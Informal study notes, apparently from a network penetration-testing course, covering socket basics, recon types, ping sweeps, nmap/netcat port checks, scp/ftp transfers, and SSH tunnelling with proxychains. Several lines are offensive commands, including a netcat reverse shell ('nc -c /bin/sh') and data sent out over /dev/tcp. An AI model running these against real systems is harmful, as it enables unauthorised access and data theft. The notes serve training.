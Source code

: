 

Import Socket: 
  s = socket.socket(socket.FAMILY, socket.TYPE, socket.PROTOCOL)
    FAMILY Constants = AF_INET, AF_INET6,AF_UNIX
    TYPE Constants = SOCK_STREAM,SOCK_DGRAM,SOCK_RAW
    PROTO Constants = 0,IPPROTO_RAW
if you are going to create a tunnel and need to connect a socket through, change the ipaddr to the loopback and the port will be high number port on the tunnel.


Socket types:
  Stream : 
    connection orieneted and sequences; methods for connection establishment and tear-down, used with tcp,sctp,and bluetooth (protocol not needed)
  Datagram:
    connectionless; designed for quickly sending and receiving data, used with upp (Protocol not needed)
  Raw:
    Direct sending and receiving of ip packets without automatic protocol-specific formatting




------------------------------------------------------------------

4 types of recon
  active
      
  passive
      gathering info without direct interaction
      lower risk of discovery
      not as straight forward and requieres more time than active
      trying to find IP addresses and subdomains, external and 3rd party sites, people and technologies, content of interest, vulnerabilities
      whois queries, job site listings, phone numbers, google searches, passive OS fingerprinting
  internal
      sitting inside trying to find more shit inside the network
      packet sniffers ie. tcpdump, wireshark (internal passive)
      dns queries, arp reqests (internal active)
  external
      generally the start, from outside the target system
      OSINT (external passive)
          resolving hostnames to ip addresses, rfc 3912, WHOIS queries  
            DIG:
              typically between primary and secondary dns servers
              if allowed to transfer externally hostnames, IPs and IP blocks can be determined

network scanning
 #linux   for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
 #Windows for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
   
  21-23,80
  remote to local
    pen testing
  local to remote
    illegal
  local to local
    network admins
  remote to remote
    checking a lotta shit at once
    don't worry about it
  aim:
    wide range target scan
    target specific scan
  method:
    how you're scanning
    single source scan
    distributed scan

  idle scan uses zombie IP, uses another person's IP (that ou have to specify  to do the scan

  find open ports with nmap then use netcat to verify
      echo " ' | nc -v <ip> <port number>




host discover
  nmap, nc, scan scrpt, ping sweep
port discovery
  nmap, nc
port validation
  banner grabbing using nc
follow on actions based on ports found
  if 22 or 23 CONNECT and PASSIVE RECON
  IF 21 or 80 wget -r IP_ADDRESS **OR** wget -r ftp://IP_ADDRESS **OR** firefox
      eom or eog to open them


scan methodology
quick scan 21-23, 80
specific ports based on hints/clues
well knows
chinks of 2000 or first 10000
hail mary, (65535)
-----------------------------------------------------------------

day 5) 

transfering data - tftp, ftp (active/passive), sftp like ftp but with encryption of ssh, ftps, 

ftp <ip> | anonymous(free account on it if enabled) 
 wget -r <ip> | wget -r ftp://<ip>:<port> 

scp <location> <desination>
remote | scp student@<ip>: <file path> <where i want it> 
local | <where its located> student@<ip> :<where you want it> 
remote to remote | scp -3 student@<ip> :<what you want> student@<ip>:<where you want it>



port forward | scp -P 1111 student@localhost:file  <where you want it> 


netcat 
--------------
listning port must be made first 


listner
--------------
nc <ip> <port> < file.txt
nc -l -p 9001 > newfile.txt 
---------------------------
client relay 
-----------
mknod mypipe p (or) mkfifo <name> 

listners 
-------------
nc -l -l 9002 < infile (sends info) 
nc -l -p 9001 > outfile (recieves info) 


tunneling
______________________
creates ssh, then tells what port to go through 

send traffic
-----------------
nc -l -p 1111 > file.txt
cat file.txt > /dev/tcp/<ip>/<port>

requesting a shell
----------------------
nc -c /bin/sh <your ip> <any unfilterd port> 
nc -l -p <port that was unfiltered> -vvv

ssh local port forwarding
-------------------------
                                        (or host name) 
ssh -p <optional alternate port> <user>@<ip> -L <myport>: target:<Target port> -NT 

ex) ssh student@172.16.82.106 -L 1111:localhost:80 -NT (a way to access a private web server this host only has access too. if its an active webserver) 

ssh student@172.16.1.15 -L 1111:172.16.40.10:22
ssh student@localhost -p 1111 -L 2222:172.16.82.106:80 

        (9050)
ssh -D <port> -p <alt port> user@povit ip -NT   (use a 3rd praty software to figure it out; proxychains) any tcp protocoal can  be used, only forwards tcp traffic 
ex) ssh student@172.16.82.106 -D 9050 -nt 

on my box) proxychains ./network (network scan) 
          porxychains ssh student@<ip> -p


proxychains curl ftp://www.onlineftp.ch
proxychains wget -r www.espn.com
proxychains ./network


ss -ntlp (view ports on your loop back) ss -antp (established ports)
------------------------------------------------------


































